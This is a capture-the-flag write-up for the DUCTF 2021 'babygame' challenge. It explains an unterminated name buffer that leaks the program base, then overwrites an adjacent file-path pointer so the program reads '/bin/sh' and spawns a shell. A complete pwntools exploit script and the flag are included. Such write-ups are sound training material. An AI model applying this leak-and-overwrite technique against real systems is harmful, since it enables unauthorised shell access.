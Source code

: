 # babygame

## Challenge

The binary firsts asks for our name, then we are allowed to print and change our name as many times as we want.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Solution

The program has a secret option that allows us to spawn a shell if we correctly guess 4 bytes from /dev/urandom.

If we make our name 0x20 bytes long, the entire buffer will be filled and the stored string will not be null terminated.

The function for changing our name uses `strlen` to determine how many characters to read.

Since `obj.RANDBUF` is adjacent, we will gain an additional 0x6 bytes from the address of the `"/dev/urandom\x00"` string.

By printing our name, we can leak the base address of the executable.

When writing our name, we can overwrite this string address to point to another string with a valid file, such as `"/bin/sh\x00"`

We know the first 4 bytes of /bin/sh, so we can send our guess as `\x7fELF` formatted as a number in little endian.

This will spawn a shell and allow us to read the flag file.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host pwn-2021.duc.tf --port 31907 babygame
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('babygame')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'pwn-2021.duc.tf'
port = int(args.PORT or 31907)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

io.sendafter(b"name?\n", b"A" * 0x20)

io.sendlineafter(b"> ", b"2")

io.recvuntil(b"A" * 0x20)

leak = io.recvuntil(b"\n", drop=True)
print(leak)

exe.address = unpack(leak.ljust(8, b"\x00")) - next(exe.search(b'/dev/urandom\x00'))
io.info(hex(exe.address))

io.sendlineafter(b"> ", b"1")

io.sendafter(b"What would you like to change your username to?\n", b"A" * 0x20 + pack(next(exe.search(b'/bin/sh\x00')))[:-2])

io.sendlineafter(b"> ", b"1337")

guess = u32(b"\x7fELF")
print(guess)
io.sendlineafter(b"guess: ", str(guess).encode())

io.interactive()
```

## Flag

`DUCTF{whats_in_a_name?_5aacfc58}`

